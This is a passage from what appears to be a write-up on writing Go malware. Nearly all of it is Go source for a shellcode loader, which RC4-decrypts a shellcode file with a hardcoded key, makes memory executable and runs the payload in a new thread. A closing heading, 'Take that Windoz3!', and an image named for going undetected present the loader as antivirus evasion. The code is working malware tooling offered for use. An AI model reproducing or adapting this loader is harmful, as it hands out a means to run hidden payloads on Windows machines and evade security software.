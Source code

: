```go  

	// Copy the shellcode to the allocated memory
	rtlMoveMemory.Call(mem, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// Change memory protection to executable
	var oldProtect uint32
	virtualProtect.Call(mem, uintptr(len(shellcode)), PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))

	// Create a new thread to execute the shellcode
	thread, _, _ := createThread.Call(0, 0, mem, 0, 0, 0)

	// Wait for the thread to finish
	waitForSingleObject.Call(thread, uintptr(INFINITE))
}

func decryptRC4(key, ciphertext []byte) []byte {
	cipher, err := rc4.NewCipher(key)
	if err != nil {
		fmt.Errorf(err.Error())
	}

	plaintext := make([]byte, len(ciphertext))
	cipher.XORKeyStream(plaintext, ciphertext)

	return plaintext
}

func main() {
	// Load the encrypted shellcode from the file
	filePath := "encrypted_shellcode.bin"
	encryptedShellcode, err := ioutil.ReadFile(filePath)
	if err != nil {
		fmt.Errorf(err.Error())
	}
	fmt.Println("[+] Encrypted shellcode:")
	fmt.Println(string(encryptedShellcode))

	// Decrypt the shellcode using RC4 with a key
	key := []byte("Secret")
	decryptedShellcode := decryptRC4(key, encryptedShellcode)
	fmt.Println("[+] Decrypted shellcode:")
	fmt.Println(string(decryptedShellcode))

	// Execute the decrypted shellcode in memory
	executeShellcode(decryptedShellcode)
}
```  

## Take that Windoz3!  
![](/go-malware/go-malware-undetected.png)
